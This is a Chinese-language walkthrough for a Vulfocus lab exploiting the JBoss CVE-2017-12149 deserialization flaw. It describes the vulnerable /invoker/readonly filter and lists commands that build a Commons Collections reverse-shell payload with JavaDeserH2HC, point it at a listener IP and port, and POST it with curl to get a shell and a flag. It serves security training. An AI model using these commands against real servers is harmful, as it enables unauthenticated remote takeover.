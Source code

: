 # Jboss命令执行漏洞（CVE-2017-12149）by [wuli888](https://github.com/wuli888)

## 一、漏洞描述

<p>近期，互联网爆出JBOSSApplication Server反序列化命令执行漏洞(CVE-2017-12149)，远程攻击者利用漏洞可在未经任何身份验证的服务器主机上执行任意代码。漏洞细节和验证代码已公开，近期被不法分子利用出现大规模攻击尝试的可能性较大。漏洞危害程度为高危(High)。</p>

## 二、影响版本

漏洞影响5.x和6.x版本的JBOSSAS

## 三、漏洞原理<

JBOSS Application Server是一个基于J2EE的开放源代码的应用服务器。 JBoss代码遵循LGPL许可，可以在任何商业应用中免费使用，2006年，JBoss被Redhat公司收购。2017年8月30日，厂商Redhat发布了一个JBOSSAS 5.x 的反序列化远程代码执行漏洞通告。该漏洞位于JBoss的HttpInvoker组件中的 ReadOnlyAccessFilter 过滤器中，其doFilter方法在没有进行任何安全检查和限制的情况下尝试将来自客户端的序列化数据流进行反序列化，导致攻击者可以通过精心设计的序列化数据来执行任意代码。但近期有安全研究者发现JBOSSAS 6.x也受该漏洞影响，攻击者利用该漏洞无需用户验证在系统上执行任意命令，获得服务器的控制权。

## 四、利用流程

1、启动Vulfocus

![img](./1.png)

2、访问靶场页面

![img](./2.png)

3、访问可能存在漏洞的页面     http://10.10.11.20:43209/invoker/readonly

![img](./3.png)

4、使用kali拉取利用工具

`git clone https://github.com/joaomatosf/JavaDeserH2HC`

![img](./4.png)

5、在Kali中下载执行生成二进制的payload文件

`javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java`

![img](./5.png)

6、修改接受shell的主机IP和端口

`java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 10.10.11.244:8989`

![img](./6.png)

7、进行监听

![img](./7.png)

8、向服务器发送攻击Payload

`curl http://10.10.11.20:43209/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser`

![img](./8.png)

9、获取flag

![img](./9.png)
